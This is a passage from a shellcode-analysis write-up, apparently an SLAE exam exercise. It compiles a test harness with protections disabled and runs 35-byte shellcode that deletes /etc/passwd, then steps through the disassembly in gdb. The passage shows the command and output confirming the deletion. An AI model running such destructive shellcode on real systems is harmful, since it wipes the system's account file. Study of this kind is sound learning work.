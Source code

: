 Let's compile and debug thanks to gdb:  
```bash
# gcc -fno-stack-protector -z execstack -o unlink unlink.c && chmod u+x ./unlink && ./unlink
Shellcode Length: 35
# ls -lrt /etc/passwd*
-rw------- 1 0 root 3025 mars   1 21:47 /etc/passwd-
-rw-r--r-- 1 0 root 3073 avril 22 13:48 /etc/passwd.backup
```  
  
Ok so we have our passwd backups but the */etc/passwd* file has been deleted.  Let's have a look to the shellcode (35 bytes long):  
```bash
# gdb -q unlink
Reading symbols from unlink...(no debugging symbols found)...done.
gdb-peda$ print &shell
$1 = (<data variable, no debug info> *) 0x804a040 <shell>
gdb-peda$ br *&shell
Breakpoint 1 at 0x804a040
gdb-peda$ r
Starting program: /root/Documents/pentest/certs/slae/exam/assignment6.2/unlink 
Shellcode Length: 35
[----------------------------------registers-----------------------------------]
EAX: 0x804a040 --> 0x315e11eb 
EBX: 0x0 
ECX: 0x7fffffeb 
EDX: 0xb7faf870 --> 0x0 
ESI: 0x1 
EDI: 0xb7fae000 --> 0x1b2db0 
EBP: 0xbffff238 --> 0x0 
ESP: 0xbffff21c --> 0x8048479 (<main+62>: mov    eax,0x0)
EIP: 0x804a040 --> 0x315e11eb
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804a03a: add    BYTE PTR [eax],al
   0x804a03c: add    BYTE PTR [eax],al
   0x804a03e: add    BYTE PTR [eax],al
=> 0x804a040 <shell>: jmp    0x804a053 <shell+19>
 | 0x804a042 <shell+2>: pop    esi
 | 0x804a043 <shell+3>: xor    eax,eax
 | 0x804a045 <shell+5>: xor    ecx,ecx
 | 0x804a047 <shell+7>: xor    edx,edx
 |->   0x804a053 <shell+19>:  call   0x804a042 <shell+2>
       0x804a058 <shell+24>:  das
       0x804a059 <shell+25>:  gs je  0x804a0bf
       0x804a05c <shell+28>:  das
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xbffff21c --> 0x8048479 (<main+62>:  mov    eax,0x0)
0004| 0xbffff220 --> 0x1 
0008| 0xbffff224 --> 0xbffff2e4 --> 0xbffff480 ("/root/Documents/pentest/certs/slae/exam/assignment6.2/unlink")
0012| 0xbffff228 --> 0xbffff2ec --> 0xbffff4bd ("XDG_VTNR=2")
0016| 0xbffff22c --> 0x804a040 --> 0x315e11eb 
0020| 0xbffff230 --> 0xb7fae3dc --> 0xb7faf1e0 --> 0x0 
0024| 0xbffff234 --> 0xbffff250 --> 0x1 
0028| 0xbffff238 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804a040 in shell ()
gdb-peda$ x/17i $eip
=> 0x804a040 <shell>: jmp    0x804a053 <shell+19>
   0x804a042 <shell+2>: pop    esi
   0x804a043 <shell+3>: xor    eax,eax
   0x804a045 <shell+5>: xor    ecx,ecx
```